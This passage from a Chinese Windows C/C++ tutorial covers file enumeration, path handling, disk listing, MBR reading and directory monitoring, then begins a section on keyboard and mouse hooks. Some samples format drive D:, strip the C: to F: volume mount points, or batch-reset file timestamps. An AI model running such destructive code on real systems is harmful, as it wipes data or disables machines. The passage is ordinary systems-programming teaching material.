    return 1;
  }
  else
  {
    do
    {
      // 获取文件类型
      DWORD type = GetFileType(fileData.cFileName);

      // 获取文件大小
      DWORD size = 0;
      GetFileSize(fileData.cFileName, &size);

      // 输出
      printf("文件: %s 属性: %d 大小: %d \n", fileData.cFileName, type, size);

    }   // 查找下一个文件, 并获取其信息
    while (FindNextFile(hListFile, &fileData));
  }

  system("pause");
  return 0;
}
```

### 11.6 切割文件名与路径

如下代码是一段文件路径切割实现，通过传入文件路径，获取文件名和文件路径的功能。具体实现包括两个函数：`GetFileName`和`GetFilePath`。前者接收一个文件路径字符串，并返回该文件路径中的文件名；后者接收一个文件路径字符串，并返回该文件路径中除文件名以外的部分，即文件路径。

在`main`函数中，首先定义了两个文件路径字符串`szPathA`和`szPathB`。然后，分别调用`GetFileName`和`GetFilePath`函数，将它们的返回值保存在指针变量`ptr`中，并输出到控制台上。最后，程序返回0，结束执行。

```C
#include <iostream>
#include <Windows.h>
#include <string.h>

// 传入路径得到文件名
char* GetFileName(char* Path)
{
    if (strchr(Path, '\\'))
    {
        char ch = '\\';
        char* ref = strrchr(Path, ch) + 1;
        return ref;
    }
    else
    {
        char ch = '/';
        char* ref = strrchr(Path, ch) + 1;
        return ref;
    }
}

// 传入路径只得到文件路径
char* GetFilePath(char *Path)
{
    int i, pos;
    for (int count = 0; count < strlen(Path); count++)
    {
        if (Path[count] == '\\' || Path[count] == '/')
        {
            pos = count;
        }
    }
    Path[pos] = '\0';
    return Path;
}

int main(int argc,char *argv[])
{
    char szPathA[128] = "C://Windows/LanguageOverlayCache/server.cpp";
    char szPathB[128] = "c:\\Windows\\LanguageOverlayCache\\kernel.dll";
    char* ptr = NULL;

    ptr = GetFileName(szPathA);
    std::cout << "文件名A: " << ptr << std::endl;

    ptr = GetFileName(szPathB);
    std::cout << "文件名B: " << ptr << std::endl;

    ptr = GetFilePath(szPathB);
    std::cout << "文件路径: " << ptr << std::endl;

    return 0;
}
```

### 11.7 遍历目录下文件

如下代码是一个使用递归遍历目录，并输出指定格式的文件信息的程序。主要用到了文件操作函数`findfirst()`、`_findnext()`和`_findclose()`，以及结构体类型`_finddata_t`。

函数`dfsFolder()`分别接收目录路径和需要查找的文件格式。通过使用`_findfirst()`找到该路径下的第一个文件或文件夹，如果是文件夹，则递归调用`dfsFolder()`函数，如果是文件，则判断其是否为需要查找的格式，如果是则输出该文件的相关信息。

函数`dfsFolderAll()`只传入了一个参数，即目录路径。该函数使用了和`dfsFolder()`类似的方法，但是不判断文件格式，而是将该路径下的所有文件和文件夹都列出来，在`main()`函数中，可以通过调用这两个函数来实现列出目录下所有文件和文件夹，或是列出目录下所有指定格式的文件。

```C
#include <io.h>
#include <iostream>

using namespace std;

// 列举出所有文件路径
void dfsFolderAll(string folderPath)
{
    _finddata_t file;
    int k;
    long HANDLE;
    k = HANDLE = _findfirst(folderPath.c_str(), &file);
    while (k != -1)
    {
        cout << file.name << endl;
        k = _findnext(HANDLE, &file);
    }
    _findclose(HANDLE);
}

// 传入目录与需要列出的指定格式文件
void dfsFolder(string folderPath,string subpath)
{
    _finddata_t FileInfo;
    /*  文件信息结构体
    struct _finddata_t{
         unsigned attrib;     // 文件属性
         time_t time_create;    // 创建时的时间戳
         time_t time_access;    // 最后一次被访问时的时间戳
         time_t time_write;     // 最后一次被修改时的时间戳
         _fsize_t size;       // 文件字节大小
         char name[_MAX_FNAME];   // 文件名
    };*/
    string strfind = folderPath + "\\*";
    long Handle = _findfirst(strfind.c_str(), &FileInfo);

    if (Handle == -1L)
    {
        exit(0);
    }
    do
    {
        // 判断是否为目录 
        if (FileInfo.attrib & _A_SUBDIR)
        {
            // 判断目录是否为当前目录和上一级目录
            if ((strcmp(FileInfo.name, ".") != 0) && (strcmp(FileInfo.name, "..") != 0))
            {
                // 如果不是则拼接当前路径继续递归调用
                string newPath = folderPath + "\\" + FileInfo.name;
                dfsFolder(newPath,subpath.c_str());
            }
        }
        else
        {
            // 判断是不是指定后缀的文件
            if (strstr(FileInfo.name, subpath.c_str()))
            {
                cout << " 文件名: " << FileInfo.name << " 文件大小: " << FileInfo.size;
        if (FileInfo.attrib == _A_NORMAL)
        {
                    cout << " 普通文件 " << endl;
        }
        else if (FileInfo.attrib == _A_RDONLY)
        {
          cout << " 只读文件 " << endl;
        }
        else if (FileInfo.attrib == _A_HIDDEN)
        {
          cout << " 隐藏文件 " << endl;
        }
        else if (FileInfo.attrib == _A_SYSTEM)
        {
          cout << " 系统文件 " << endl;
        }
        else if (FileInfo.attrib == _A_SUBDIR)
        {
          cout << " 子目录 " << endl;
        }
        else
        {
          cout << " 存档文件 " << endl;
        }
            }
        }
    } while (_findnext(Handle, &FileInfo) == 0);
    _findclose(Handle);
}

int main(int argc,char *argv[])
{
    //dfsFolder("C:\\Windows\\system32",".dll");
    dfsFolderAll("C:\\Windows\\system32\\*");

    return 0;
}
```

### 11.8 重置文件时间戳

对特定目录执行枚举，并将指定的日期时间戳依次设置到文件目录上。

```C
#define _CRT_SECURE_NO_WARNINGS
#include <io.h>
#include <iostream>
#include <windows.h>

using namespace std;

// 修改文件当前创建日期
bool SetLocalFileTime(const char* FilePath, const char* Date, const char* Time)
{
    HANDLE hFile = CreateFileA(FilePath, GENERIC_READ | GENERIC_WRITE, FILE_SHARE_READ | FILE_SHARE_DELETE, NULL, OPEN_EXISTING, FILE_FLAG_BACKUP_SEMANTICS, NULL);
    if (hFile == INVALID_HANDLE_VALUE)
    {
        return false;
    }

    SYSTEMTIME spec_time;
    sscanf(Date, "%d-%d-%d", &spec_time.wYear, &spec_time.wMonth, &spec_time.wDay);
    sscanf(Time, "%d:%d:%d", &spec_time.wHour, &spec_time.wMinute, &spec_time.wSecond);

    FILETIME ft, LocalFileTime;
    SystemTimeToFileTime(&spec_time, &ft);
    LocalFileTimeToFileTime(&ft, &LocalFileTime);

    if (SetFileTime(hFile,
        &LocalFileTime,    // 创建时间
        &LocalFileTime,    // 访问时间
        &LocalFileTime     // 修改时间
    ))
    {
        CloseHandle(hFile);
        return true;
    }
    CloseHandle(hFile);
    return false;
}

// 批量修改文件名
void BatchSetFileDateTime(string folderPath, string Date, string Time)
{
    _finddata_t FileInfo;
    string strfind = folderPath + "\\*";
    long Handle = _findfirst(strfind.c_str(), &FileInfo);

    if (Handle == NULL)
    {
        exit(0);
    }
    do
    {
        // 判断是否为目录 
        if (FileInfo.attrib & _A_SUBDIR)
        {
            // 判断目录是否为当前目录和上一级目录
            if ((strcmp(FileInfo.name, ".") != 0) && (strcmp(FileInfo.name, "..") != 0))
            {
                // 如果不是则拼接当前路径继续递归调用
                string newPath = folderPath + "\\" + FileInfo.name;
                bool ref = SetLocalFileTime(newPath.c_str(), Date.c_str(), Time.c_str());
                if (ref == true)
                {
                    std::cout << "[*] 目录: " << newPath << std::endl;
                }
                BatchSetFileDateTime(newPath,Date,Time);
            }
        }
        else
        {
            string newPath = folderPath + "\\" + FileInfo.name;
            bool ref = SetLocalFileTime(newPath.c_str(), "1995-01-01", "12:00:00");
            if (ref == true)
            {
                std::cout << "[*] 文件: " << newPath << std::endl;
            }
        }

    } while (_findnext(Handle, &FileInfo) == 0);
    _findclose(Handle);
}

int main(int argc, char* argv[])
{
    BatchSetFileDateTime("D:\\boost_1_64_0","1995-01-01","0:0:0");

    return 0;
}
```

### 11.9 遍历磁盘容量

如下代码实现了在Windows系统中获取所有磁盘驱动器的信息。具体包括两个函数，一个用于获取驱动器类型，另一个用于获取驱动器空间信息。主函数则调用这两个函数来遍历所有逻辑驱动器并输出相应的信息。在输出驱动器空间信息时，会输出该驱动器的总大小、已用空间以及可用空间。

```C
#include <stdio.h>
#include <Windows.h>

void GetDrivesType(const char* lpRootPathName)
{
  UINT uDriverType = GetDriveType(lpRootPathName);
  switch (uDriverType)
  {
    case DRIVE_UNKNOWN:puts("未知磁盘"); break;
    case DRIVE_NO_ROOT_DIR: puts("路径无效"); break;
    case DRIVE_REMOVABLE: puts("可移动磁盘"); break;
    case DRIVE_FIXED: puts("固定磁盘"); break;
    case DRIVE_REMOTE: puts("网络磁盘"); break;
    case DRIVE_CDROM: puts("光驱"); break;
    case DRIVE_RAMDISK: puts("内存映射盘"); break;
    default: break;
  }
}

void GetDrivesFreeSpace(const char* lpRootPathName)
{
  unsigned long long available, total, free;
  if (GetDiskFreeSpaceEx(lpRootPathName, (ULARGE_INTEGER*)&available, 
    (ULARGE_INTEGER*)&total, (ULARGE_INTEGER*)&free))
  {
    printf("磁盘: %s | 总计: %lld MB 已用: %lld MB 剩余: %lld MB \n",
      lpRootPathName, total >> 20, available >> 20, free >> 20);
  }
}

int main(int argc,char *argv[])
{
  DWORD dwSize = MAX_PATH;
    char szLogicalDrives[MAX_PATH] = {0};

    // 获取逻辑驱动器号字符串
  DWORD dwResult = GetLogicalDriveStringsA(dwSize, szLogicalDrives);
  
  if (dwResult > 0 && dwResult <= MAX_PATH)
  {
      // 从缓冲区起始地址开始
    char* szSingleDrive = szLogicalDrives;
    while (*szSingleDrive) {
      //printf("Drive: %s\n", szSingleDrive);      // 输出单个驱动器的驱动器号
      // GetDrivesType(szSingleDrive);
      GetDrivesFreeSpace(szSingleDrive);
      // 获取下一个驱动器地址
      szSingleDrive += strlen(szSingleDrive) + 1;
    }
  }

  system("pause");
  return 0;
}
```

### 11.10 遍历盘符并存储

循环遍历盘符分区,并将所有盘符结构存储到`std::vector<MyDriver>`定义的容器中.

```C
#include <windows.h>
#include <iostream>
#include <vector>
#include <string>

// 将字节转换为GB单位显示的宏定义
#define ToGB(x) (x.HighPart << 2) + (x.LowPart >> 20) / 1024.0

// 定义基础结构
typedef struct
{
    double available_space;
    double free_space;
    double total_space;
}DriverInfo;

// 定义完整结构
typedef struct
{
    char driver_name[128];
    char driver_type[128];
    double available_space;
    double free_space;
    double total_space;
}MyDriver;

using namespace std;

// 获取驱动器数量
int GutDrivesCount()
{
    DWORD drivers;
    int count = 0;

    //获取驱动器数
    drivers = GetLogicalDrives();
    while (drivers != 0)
    {
        if (drivers & 1 != 0)
        {
            count++;
        }
        drivers >>= 1;
    }
    return count;
}

// 获取驱动器类型
std::string GetDrivesType(const char* lpRootPathName)
{
    UINT uDriverType = GetDriveType(lpRootPathName);
    switch (uDriverType)
    {
    case DRIVE_UNKNOWN:
        return "未知类型"; break;
    case DRIVE_NO_ROOT_DIR:
        return "路径无效"; break;
    case DRIVE_REMOVABLE:
        return "可移动磁盘"; break;
    case DRIVE_FIXED:
        return "固定磁盘"; break;

    case DRIVE_REMOTE:
        return "网络磁盘"; break;
    case DRIVE_CDROM:
        return "光驱设备"; break;
    case DRIVE_RAMDISK:
        return "内存映射盘"; break;
    default:
        break;
    }
    return "错误参数";
}

// 获取盘符容量
DriverInfo GetDrivesFreeSpace(const char* lpRootPathName)
{
    // ULARGE_INTEGER 64位无符号整型值
    ULARGE_INTEGER available, total, free;
    DriverInfo ref;

    // 获取分区数据并返回DriversInfo结构体
    if (GetDiskFreeSpaceEx(lpRootPathName, (ULARGE_INTEGER*)&available, (ULARGE_INTEGER*)&total, (ULARGE_INTEGER*)&free))
    {
        ref.total_space = ToGB(total);
        ref.free_space = ToGB(available);
        ref.available_space = ref.total_space - ref.free_space;
    }
    return ref;
}

std::vector<MyDriver> GetDriveForVector()
{
    DWORD count = GutDrivesCount();
    std::cout << "驱动器个数: " << count << std::endl;

    DWORD dwSize = MAX_PATH;
    char szLogicalDrives[MAX_PATH] = { 0 };

    // 获取逻辑驱动器号字符串
    DWORD dwResult = GetLogicalDriveStrings(dwSize, szLogicalDrives);

    // 处理获取到的结果
    if (dwResult > 0 && dwResult <= MAX_PATH)
    {
        // 定义两个结构, MyDriver 临时存储单个结构,ref存储所有磁盘的容器
        MyDriver my_driver_ptr;
        std::vector<MyDriver> ref;

        // 从缓冲区起始地址开始
        char* szSingleDrive = szLogicalDrives;

        while (*szSingleDrive)
        {
            // 逻辑驱动器类型
            std::string type = GetDrivesType(szSingleDrive);

            // 获取磁盘空间信息并存入 DriverInfo 结构
            DriverInfo ptr;
            ptr = GetDrivesFreeSpace(szSingleDrive);

            // 填充结构数据
            strcpy(my_driver_ptr.driver_name, szSingleDrive);
            strcpy(my_driver_ptr.driver_type, type.c_str());
            my_driver_ptr.total_space = ptr.total_space;
            my_driver_ptr.free_space = ptr.free_space;
            my_driver_ptr.available_space = ptr.available_space;

            // 加入到容器中
            ref.push_back(my_driver_ptr);
            /*
            std::cout
                << "盘符: " << szSingleDrive
                << " 类型: " << type
                << " 总容量: " << ptr.total_space
                << " 可用空间: " << ptr.free_space
                << " 已使用: " << ptr.available_space
                << std::endl;
            */
            // 获取下一个驱动器号起始地址
            szSingleDrive += strlen(szSingleDrive) + 1;
        }
        return ref;
    }
}

int main(int argc,char *argv[])
{
    std::vector<MyDriver> ptr = GetDriveForVector();

    // 循环输出vector容器
    for (int x = 0; x < ptr.size(); x++)
    {
        std::cout
            << "盘符: " << ptr[x].driver_name
            << " 类型: " << ptr[x].driver_type
            << " 总容量: " << ptr[x].total_space
            << " 可用空间: " << ptr[x].free_space
            << " 已使用: " << ptr[x].available_space
            << std::endl;
    }

    std::system("pause");
    return 0;
}
```

### 11.11 实现磁盘格式化

如下代码定义了一个函数`FormatDisk`，用于格式化由指定为字符串的驱动器号标识的磁盘。该函数使用`Shell2.dll`模块中的`SHFormatDrive()`这个未导出函数实现对特定磁盘的格式化。

FormatDisk函数采用`std:：string`参数`strDisk`，该参数指定要格式化的磁盘的驱动器号。该函数首先使用`LoadLibraryA`加载`Shell32.dll`库，然后使用`GetProcAddress`检索`SHFormatDrive`函数的地址。使用控制台应用程序的窗口句柄、要格式化的磁盘的驱动器ID（根据驱动器号计算）以及指定格式选项的标志来调用`SHFormatDrive`函数。

```C
#include <iostream>
#include <string>
#include <Windows.h>
#include <ShlObj.h>

#pragma comment(lib, "Shell32.lib")

// 格式化磁盘
void FormatDisk(std::string strDisk)
{
  HINSTANCE hInstance = ::LoadLibraryA("Shell32.dll");
  if (NULL == hInstance)
  {
    return;
  }
  typedef DWORD(*PSHFORMATDRIVE)(HWND, UINT, UINT, UINT);
  PSHFORMATDRIVE SHFormatDrive = (PSHFORMATDRIVE)::GetProcAddress(hInstance, "SHFormatDrive");
  if (NULL == SHFormatDrive)
  {
    return;
  }
  UINT uiID = strDisk[0] - 'A';

  // 获取控制台程序窗口句柄
  HWND hWnd = ::GetConsoleWindow();

  SHFormatDrive((HWND)hWnd, uiID, 0xFFFF, 0x0001);
  ::FreeLibrary(hInstance);
}

int main(int argc, char* argv[])
{
  // 传入磁盘
  FormatDisk("D");

  return 0;
}
```

### 11.12 移除指定磁盘

如下代码演示了如何通过 `Windows API` 移除指定的磁盘驱动器，包括移除盘符和卸载卷加载点。代码首先定义了一个 `DeleteVolume` 函数，接收一个指向字符串的指针，表示要删除的磁盘驱动器的盘符。然后，函数将盘符转换为设备名称，使用 `DefineDosDeviceA` 函数将其从系统中移除。接着，函数使用 `DeleteVolumeMountPointA` 函数删除卷加载点。最后，`main` 函数调用 `DeleteVolume` 函数四次，移除了 `C:、D:、E:、F: `四个磁盘驱动器。

```C
#include <iostream>
#include <Windows.h>

// 移除指定盘符
BOOL DeleteVolume(char* lpszDriver)
{
  // 将盘符和Dos设备路径移除
  char szDeviceName[MAX_PATH] = { 0 };
  strcpy(szDeviceName, lpszDriver);
  szDeviceName[2] = '\0';
  if (!DefineDosDeviceA(DDD_REMOVE_DEFINITION, szDeviceName, NULL))
  {
    return FALSE;
  }

  // 卸载卷加载点
  if (!DeleteVolumeMountPointA(lpszDriver))
  {
    return FALSE;
  }
  return TRUE;
}

int main(int argc, char *argv[])
{
  DeleteVolume((char*)"C:");
  DeleteVolume((char *)"D:");
  DeleteVolume((char*)"E:");
  DeleteVolume((char*)"F:");

    return 0;
}
```

### 11.13 输出磁盘分区表

如下代码，用于读取和分析`Windows`系统上第一个物理硬盘的主引导记录`MBR`。代码中定义了几个数据结构来表示`MBR`及其组件，包括引导记录、磁盘分区表和磁盘签名，ShowMbr使用`ReadFile`函数从硬盘读取`MBR`数据，然后以十六进制格式逐字节打印`MBR`数据。AnalysMbr函数提取并分析`MBR`数据，打印出引导记录、磁盘签名和分区表信息。

主函数中使用`CreateFileA`打开第一个物理硬盘，使用`ShowMbr`函数读取`MBR`数据，使用`AnalystMbr`函数分析`MBR`数据，然后使用`CloseHandle`函数关闭文件句柄，此段代码读者在编译时需采用64位模式编译。

```C
#include <iostream>
#include <Windows.h>

// 定义数据结构体
#define BOOTRECORDSIZE 440
typedef struct _BOOTRECORD
{
  unsigned char BootRecore[BOOTRECORDSIZE];
}BOOTRECORD, * PBOOTRECORD;

#define DPTSIZE 64
typedef struct _DPT
{
  unsigned char Dpt[DPTSIZE];
}DPT, * PDPT;

#define DPTNUMBER 4
typedef struct _DP
{
  unsigned char BootSign;     // 引导标志
  unsigned char StartHsc[3];
  unsigned char PatitionType;   // 分区类型
  unsigned char EndHsc[3];
  ULONG SectorsPreceding;     // 本分去之前使用的扇区数
  ULONG SectorsInPatition;    // 分区的总扇区数
}DP, * PDP;

typedef struct _MBR
{
  BOOTRECORD BootRecord;      // 引导程序
  unsigned char ulSigned[4];    // windows磁盘签名
  unsigned char sReserve[2];    // 保留位
  DPT Dpt;            // 分区表
  unsigned char EndSign[2];   // 结束标志
}MBR, * PMBR;

void ShowMbr(HANDLE hFile, PMBR pMbr)
{
  DWORD dwTemp = 0;
  ::ReadFile(hFile, (LPVOID)pMbr, sizeof(MBR), &dwTemp, NULL);
  for (int i = 0; i < 512; i++)
  {
    printf("%2x ", ((BYTE*)pMbr)[i]);
    if (0 == ((i + 1) % 16))
    {
      printf("\r\n");
    }
    else if (0 == ((i + 1) % 8))
    {
      printf("   ");
    }
  }
}

void AnalysMbr(MBR Mbr)
{
  printf("\r\n引导记录:\r\n");

  for (int i = 0; i < BOOTRECORDSIZE; i++)
  {
    printf("%2x ", Mbr.BootRecord.BootRecore[i]);
    if (0 == ((i + 1) % 16))
    {
      printf("\r\n");
    }
    else if (0 == ((i + 1) % 8))
    {
      printf("   ");
    }
  }

  printf("\r\n磁盘签名:\r\n");
  for (int i = 0; i < 4; i++)
  {
    printf("%02x ", Mbr.ulSigned[i]);
  }

  printf("\r\n解析分区表:\r\n");
  for (int i = 0; i < DPTSIZE; i++)
  {
    printf("%02x ", Mbr.Dpt.Dpt[i]);
    if (0 == ((i + 1) % 16))
    {
      printf("\r\n");
    }
    else if (0 == ((i + 1) % 8))
    {
      printf("   ");
    }
  }

  printf("\r\n");

  PDP pDp = (PDP) & (Mbr.Dpt.Dpt);
  for (int i = 0; i < DPTNUMBER; i++)
  {
    printf("引导标识:%02x ", pDp[i].BootSign);
    printf("分区类型:%02x ", pDp[i].PatitionType);
    printf("\r\n");
    printf("本分区之前扇区数:%d ", pDp[i].SectorsPreceding);
    printf("本分区的总扇区数:%d", pDp[i].SectorsInPatition);
    printf("\r\n");
    printf("该分区的大小:%f\r\n", (double)pDp[i].SectorsInPatition / 1024 / 1024 * 512 / 1024 / 1024);
    printf("\r\n");
  }

  printf("结束标志:\r\n");
  for (int i = 0; i < 2; i++)
  {
    printf("%02x ", Mbr.EndSign[i]);
  }
  printf("\r\n");
}

int main(int argc, char* argv[])
{
  // 打开物理硬盘设备
  HANDLE hFile = ::CreateFileA("\\\\.\\PhysicalDrive0",
    GENERIC_READ | GENERIC_WRITE,FILE_SHARE_READ | FILE_SHARE_WRITE,
    NULL,OPEN_EXISTING,FILE_ATTRIBUTE_ARCHIVE,NULL);
  if (INVALID_HANDLE_VALUE == hFile)
  {
    return -1;
  }

  MBR Mbr = { 0 };
  ShowMbr(hFile, &Mbr);
  AnalysMbr(Mbr);
  CloseHandle(hFile);
  return 0;
}
```
### 11.14 遍历文件特定路径

如下代码的作用是在指定的目录下递归搜索后缀为`.exe`的文件，并输出其具体路径。具体实现方法是通过 `FindFirstFile` 和 `FindNextFile` 两个函数进行文件搜索，并使用 `_splitpath` 函数提取文件的后缀名进行判断。该程序会搜索给定目录下的所有子目录和文件，并逐一判断后缀名是否为 `.exe`，如果是则输出文件路径。

```C
#include <stdio.h>
#include <windows.h>
#include <tlhelp32.h>

void SearchFile(char *pszDirectory)
{
  // 搜索指定类型文件
  char *pszFileName = NULL;
  char *pTempSrc = NULL;
  WIN32_FIND_DATA FileData = { 0 };

  // 申请动态内存
  pszFileName = new char[2048];
  pTempSrc = new char[2048];

  // 构造搜索文件类型字符串 *.* 表示搜索所有文件类型
  wsprintf(pszFileName, "%s\\*.*", pszDirectory);

  HANDLE hFile = ::FindFirstFile(pszFileName, &FileData);
  if (INVALID_HANDLE_VALUE != hFile)
  {
    do
    {
      // 过滤掉当前目录"." 和上一层目录".."
      if ('.' == FileData.cFileName[0])
        continue;

      // 拼接文件路径 
      wsprintf(pTempSrc, "%s\\%s", pszDirectory, FileData.cFileName);
      // 判断是否是目录还是文件
      if (FileData.dwFileAttributes & FILE_ATTRIBUTE_DIRECTORY)
        SearchFile(pTempSrc);         // 如果是目录则继续递归
      else
      {
        char drive[_MAX_DRIVE], dir[_MAX_DIR], fname[_MAX_FNAME], ext[_MAX_EXT];
        _splitpath(pTempSrc, drive, dir, fname, ext);
        // 如果是文件并且后缀为.exe则输出具体路径
        if (strcmp(ext, ".exe") == 0)
          printf("%s \n", pTempSrc);
      }
    } while (::FindNextFile(hFile, &FileData));
  }
  FindClose(hFile);
  delete[]pTempSrc;
  delete[]pszFileName;
}

int main(int argc, char * argv[])
{
  SearchFile("c:\\MinGW7");
  system("pause");
  return 0;
}
```
我们在上方基础上稍微改进一下，让其输出当前目录下的文件，并将输出结果保存到一个`vector`容器内。
```C
#include <iostream>
#include <windows.h>
#include <vector>
#include <tlhelp32.h>

using namespace std;

typedef struct
{
  char szFilePath[256];
  char szFileName[128];
  long long szFileSize;
}FileInfo;

// 获取文件大小
int GetFileSize(std::string FileName)
{
  FILE* pointer = NULL;
  pointer = fopen(FileName.c_str(), "rb");
  if (pointer != NULL)
  {
    fseek(pointer, 0, SEEK_END);
    int size = ftell(pointer);
    fclose(pointer);
    return size;
  }
  return 0;
}

void SearchFile(char *pszDirectory, std::vector<FileInfo> &vect)
{
  // 搜索指定类型文件
  char *pszFileName = NULL;
  char *pTempSrc = NULL;
  WIN32_FIND_DATA FileData = { 0 };

  // 申请动态内存
  pszFileName = new char[2048];
  pTempSrc = new char[2048];

  // 构造搜索文件类型字符串 *.* 表示搜索所有文件类型
  wsprintf(pszFileName, "%s\\*.*", pszDirectory);

  HANDLE hFile = ::FindFirstFile(pszFileName, &FileData);
  if (INVALID_HANDLE_VALUE != hFile)
  {
    do
    {
      // 过滤掉当前目录"." 和上一层目录".."
      if ('.' == FileData.cFileName[0])
        continue;

      // 拼接文件路径    
      wsprintf(pTempSrc, "%s\\%s", pszDirectory, FileData.cFileName);
      // 判断是否是目录还是文件
      if (FileData.dwFileAttributes & FILE_ATTRIBUTE_ARCHIVE)
      {
        FileInfo info;

        char drive[_MAX_DRIVE], dir[_MAX_DIR], fname[_MAX_FNAME], ext[_MAX_EXT];
        _splitpath(pTempSrc, drive, dir, fname, ext);

        // 拷贝完整路径
        strcpy(info.szFilePath, pTempSrc);

        // 拼接完整文件名
        char sz_file_name[128] = { 0 };
        strcat(sz_file_name, fname);
        strcat(sz_file_name, ext);
        strcpy(info.szFileName, sz_file_name);

        // 得到文件长度并发送给服务端
        long long file_size = GetFileSize(pTempSrc);
        info.szFileSize = file_size;

        // std::cout << "文件路径: " << info.szFilePath << " 文件名: " << info.szFileName << std::endl;
        vect.push_back(info);
      }
    } while (::FindNextFile(hFile, &FileData));
  }
  FindClose(hFile);
  delete[]pTempSrc;
  delete[]pszFileName;
}

int main(int argc, char * argv[])
{
  std::vector<FileInfo> ptr;

  SearchFile("d:\\LyShark", ptr);

  for (int x = 0; x < ptr.size(); x++)
  {
    std::cout << "文件名: " << ptr[x].szFileName << " 文件大小: " << ptr[x].szFileSize << std::endl;
  }
  system("pause");
  return 0;
}
```

### 11.15 监控目录文件变化

如下代码用于监视对指定目录的更改，并将有关更改的信息打印到控制台。该程序使用`ReadDirectoryChangesW`函数来监视目录中的更改，并使用`FILE_NOTIFY_INFORMATION`结构来获取有关更改的信息。

程序使用`CreateThread`函数创建一个线程，并将`MonitorFileThreadProc`运行起来，此函数使用带有`FILE_LIST_directory`标志的`CreateFile`打开指定的目录，该标志允许该函数监视目录。并使用`ReadDirectoryChangesW`函数读取目录中的更改，传递一个缓冲区来存储更改，并指定要监视的更改类型。使用`WideCharToMultiByte`函数将宽字符文件名转换为多字节文件名，并将文件名与目录路径连接以获得文件的完整路径。然后，该功能将有关更改的信息打印到控制台。

```C
#include <stdio.h>
#include <Windows.h>
#include <tlhelp32.h>

DWORD WINAPI MonitorFileThreadProc(LPVOID lParam)
{
  char *pszDirectory = (char *)lParam;
  BOOL bRet = FALSE;
  BYTE Buffer[1024] = { 0 };

  FILE_NOTIFY_INFORMATION *pBuffer = (FILE_NOTIFY_INFORMATION *)Buffer;
  DWORD dwByteReturn = 0;
  HANDLE hFile = CreateFile(pszDirectory, FILE_LIST_DIRECTORY, FILE_SHARE_READ | FILE_SHARE_WRITE | FILE_SHARE_DELETE,
    NULL, OPEN_EXISTING, FILE_FLAG_BACKUP_SEMANTICS, NULL);
  if (INVALID_HANDLE_VALUE == hFile)
    return 1;

  while (TRUE)
  {
    ZeroMemory(Buffer, sizeof(Buffer));
    // 设置监控目录回调函数
    bRet = ReadDirectoryChangesW(hFile,&Buffer,sizeof(Buffer),TRUE,
      FILE_NOTIFY_CHANGE_FILE_NAME |      // 修改文件名
      FILE_NOTIFY_CHANGE_ATTRIBUTES |     // 修改文件属性
      FILE_NOTIFY_CHANGE_LAST_WRITE,      // 最后一次写入
      &dwByteReturn, NULL, NULL);
    if (TRUE == bRet)
    {
      char szFileName[MAX_PATH] = { 0 };

      // 将宽字符转换成窄字符,宽字节字符串转多字节字符串
      WideCharToMultiByte(CP_ACP,0,pBuffer->FileName,(pBuffer->FileNameLength / 2),
        szFileName,MAX_PATH,NULL,NULL);

      // 将路径与文件连接成完整文件路径
      char FullFilePath[1024] = { 0 };
      strncpy(FullFilePath, pszDirectory, strlen(pszDirectory));
      strcat(FullFilePath, szFileName);

      switch (pBuffer->Action)
      {
        case FILE_ACTION_ADDED:
        {
          printf("添加: %s \n", FullFilePath); break;
        }
        case FILE_ACTION_REMOVED:
        {
          printf("删除: %s \n", FullFilePath); break;
        }
        case FILE_ACTION_MODIFIED:
        {
          printf("修改: %s \n", FullFilePath); break;
        }
        case FILE_ACTION_RENAMED_OLD_NAME:
        {
          printf("重命名: %s", szFileName);
          if (0 != pBuffer->NextEntryOffset)
          {
            FILE_NOTIFY_INFORMATION *tmpBuffer = (FILE_NOTIFY_INFORMATION *)
              ((DWORD)pBuffer + pBuffer->NextEntryOffset);
            switch (tmpBuffer->Action)
              {
                case FILE_ACTION_RENAMED_NEW_NAME:
                {
                  ZeroMemory(szFileName, MAX_PATH);
                  WideCharToMultiByte(CP_ACP,0,tmpBuffer->FileName,
                    (tmpBuffer->FileNameLength / 2),
                    szFileName,MAX_PATH,NULL,NULL);
                  printf(" -> %s \n", szFileName);
                  break;
                }
              }
          }
          break;
        }
        case FILE_ACTION_RENAMED_NEW_NAME:
        {
          printf("重命名(new): %s \n", FullFilePath); break;
        }
      }
    }
  }
  CloseHandle(hFile);
  return 0;
}

int main(int argc, char * argv[])
{
  char *pszDirectory = "C:\\";

  HANDLE hThread = CreateThread(NULL, 0, MonitorFileThreadProc, pszDirectory, 0, NULL);
  WaitForSingleObject(hThread, INFINITE);
  CloseHandle(hThread);
  return 0;
}
```

## 第十二篇：键盘鼠标模拟技术

本篇文章将向读者介绍如何使用键盘鼠标操控模拟技术，键盘鼠标操控模拟技术是一种非常实用的技术，可以自动化执行一些重复性的任务，提高工作效率，在Windows系统下，通过使用各种键盘鼠标控制函数实现动态捕捉和模拟特定功能的操作。

通过本篇文章的指导，读者将能够学习到如何使用键盘鼠标控制函数来模拟鼠标移动、鼠标点击、键盘按键等操作，以及如何在特定情况下模拟组合键操作。同时，本篇文章还将介绍如何使用模拟技术来实现窗口操作等常见功能。

### 12.1 键盘鼠标监控钩子

本节将介绍如何使用`Windows API`中的`SetWindowsHookEx`和`RegisterHotKey`函数来实现键盘鼠标的监控。这些函数可以用来设置全局钩子，通过对特定热键挂钩实现监控的效果，两者的区别在于`SetWindowsHookEx`函数可以对所有线程进行监控，包括其他进程中的线程，而`RegisterHotKey`函数只能对当前线程进行监控。

首先我们来实现注册热键功能，注册热键可以使用`RegisterHotKey()`函数，该函数可以将一个热键与当前应用程序或线程绑定，使得当用户按下热键时，系统会自动将该热键的消息发送到该应用程序或线程中，该函数原型如下；

```c
BOOL RegisterHotKey(
  HWND hWnd,
  int id,
  UINT fsModifiers,
  UINT vk
);
```

其中，参数的含义如下：

- hWnd：热键所属的窗口句柄，通常设置为NULL，表示与当前线程绑定
- id：热键的ID号，用于区分不同的热键
- fsModifiers：热键的修饰键，可以使用组合键，例如`Ctrl`、`Alt`、`Shift`等
- vk：热键的虚拟键码，例如`VK_F1`表示`F1`键`VK_LEFT`表示左箭头键等

函数需要传入一个窗口句柄、热键ID、热键组合键等参数来设置热键。当热键被按下时，系统会自动将一个`WM_HOTKEY`消息发送给注册了该热键的窗口，应用程序需要重载该窗口的消息处理函数来响应该事件，从而实现相应的响应操作。该函数会返回一个`BOOL`类型的值，表示热键设置是否成功。

当热键被注册后则就需要接收热键消息，通常可以使用`GetMessage`函数，该函数用于从消息队列中获取一个消息并将其存储在一个结构体中，通常用于在一个循环中不断地获取消息，从而实现对`Windows`消息的处理。

该函数的原型定义如下所示；

```c
BOOL GetMessage(
